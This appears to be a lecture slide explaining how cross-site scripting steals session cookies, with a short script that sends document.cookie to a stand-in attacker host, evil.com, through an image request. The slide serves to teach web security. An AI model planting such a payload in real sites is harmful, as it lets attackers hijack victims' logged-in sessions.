

# XSS attacks: stealing cookie
Attacker injects script that reads the site’s cookie
Scripts sends the cookie to attacker
Attacker can now log into the site as the victim

<script>
var img = new Image();
img.src =
“http://evil.com/log_cookie.php?” + document.cookie
</script>